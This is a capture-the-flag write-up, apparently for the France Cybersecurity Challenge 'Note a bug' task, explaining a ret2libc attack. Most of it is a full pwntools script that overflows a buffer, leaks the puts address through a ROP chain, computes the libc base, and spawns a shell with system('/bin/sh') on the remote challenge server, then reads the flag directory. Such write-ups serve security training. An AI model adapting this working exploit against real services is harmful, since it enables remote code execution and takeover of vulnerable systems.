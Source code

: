 So, on this one, we can't leak the adresses ourselves: we only can input 1 choice before getting closed connection.
In a previous CTF, i've already done something similar: Ret2Libc.
Basically, you have to leak the libc adress using "put", then return to main, and then run your exploit knowing libc offets of the current execution.

Don't forget:
- Extract the file from Note a bug 1
- Extract the libc (or download it from internet): you need the EXACT same, else payloads won't work !

Here's my final payload, using Ret2Lib technique: 
- Leaking put base address
- Returning to main
- Calculating the libc base address
- Using that offset to reach /bin/sh and system
- Exploiting !
```python
from pwn import *

LOCAL_FILE_PATH: str = "./PWN/NoteABug/note_a_bug.bin"
REMOTE_SERVER = "challenges.france-cybersecurity-challenge.fr"
REMOTE_PORT = 2110
libc=ELF("./PWN/NoteABug/libc.so.6")
vuln_elf = ELF(LOCAL_FILE_PATH)
rop = ROP(vuln_elf)
def pwn(r):
    data = r.recvuntil(b'ote\n0. Exit\n>>> ')
    print(data.decode("utf-8"))
    # Reuse the same payload, using the leaked addresses
    r.sendline(b'1')
    data = r.recvuntil(b'ontent length: \n')
    print(data.decode("utf-8"))
    r.sendline(b'200') # add (5*8 addresses)
    data = r.recvuntil(b'Content: \n')
    print(data.decode("utf-8"))
    
    # Find gadgets
    pop_rdi_ret = rop.find_gadget(['pop rdi','ret'])[0]
    print(pop_rdi_ret)

    # Find addresses
    puts_plt = vuln_elf.plt['puts']
    puts_got = vuln_elf.got['puts']
    main_plt = vuln_elf.symbols['newNote']

    print(hex(puts_plt))
    print(hex(puts_got))
    print(hex(main_plt))

    # Build the ROP chain to leak libc address
    rop_chain = b'A'*104
    rop_chain += p64(pop_rdi_ret)  # Pop rdi; ret
    rop_chain += p64(puts_got)  # Address of puts in GOT
    rop_chain += p64(puts_plt)  # Call to puts function to leak address of puts function
    rop_chain += p64(main_plt)   # Return to main
    r.sendline(rop_chain)

    # To debug: r 1 < <(echo "1"; sleep 2; echo "200"; sleep 2; cat input.txt)
    # Then, press c under 2 seconds, and reach your breakpoint.
    test_payload = rop_chain
    print(len(rop_chain))
    print(rop_chain)

    with open ('PWN/NoteABug/input.txt', 'wb') as out:
        out.write(test_payload)

    leaked_puts = r.recv(7)

    print("leaked:", leaked_puts)
    puts_address = u64(leaked_puts.strip().ljust(8, b"\x00"))
    print(hex(puts_address))

    # Calculate libc base address
    libc.address = puts_address - libc.symbols['puts']

    print("Glibc_base:", hex(libc.address))
    system_address = libc.symbols['system']
    print(hex(system_address))


    # /bin/sh string address (gdb -> info proc map -> find x,y,"/bin/sh")
    # bin_sh = 0x7ffff79b3d88
    bin_sh = next(libc.search(b"/bin/sh"))
    print('/bin/sh address:', hex(bin_sh))

    # # System address (gdb -> p system)
    # system_addr = 0x7ffff784f420
    system_addr = libc.symbols["system"]
    print("System address:", hex(system_addr))

    # Ret addr
    ret = rop.find_gadget(['ret'])[0]
    print("ret; addr found:", hex(ret))

    # Exit addresslibc_base
    exit_addr = libc.symbols["exit"]
    print("Exit address:", hex(exit_addr))

    data = r.recvuntil(b"Content length: \n")
    print(data.decode("utf-8"))
    r.sendline(b'200')
    data = r.recvuntil(b'Content: \n')
    print(data.decode("utf-8"))
    # 104 A padding to reach the filename
    payload = b'A'*104
    payload += p64(ret)
    payload += p64(pop_rdi_ret)
    payload += p64(bin_sh)
    payload += p64(system_addr)
    print(payload)

    r.clean()
    r.sendline(payload)
    r.sendline(b'cat /fcsc/YAu4kj47vbSDkqTEf2YttEcK88pXYpf/*')
    r.interactive()

    data = r.recvall(timeout=5)
    print(data)
    
    # r.close()

def run_remote():
    conn = remote(REMOTE_SERVER, REMOTE_PORT)
    pwn(conn)

def run_bin_local(process_path: str):
    proc = process([process_path, "1"])
    pwn(proc)

def main():
    #run_bin_local(LOCAL_FILE_PATH)
    run_remote()

if __name__ == '__main__':
    main()
```
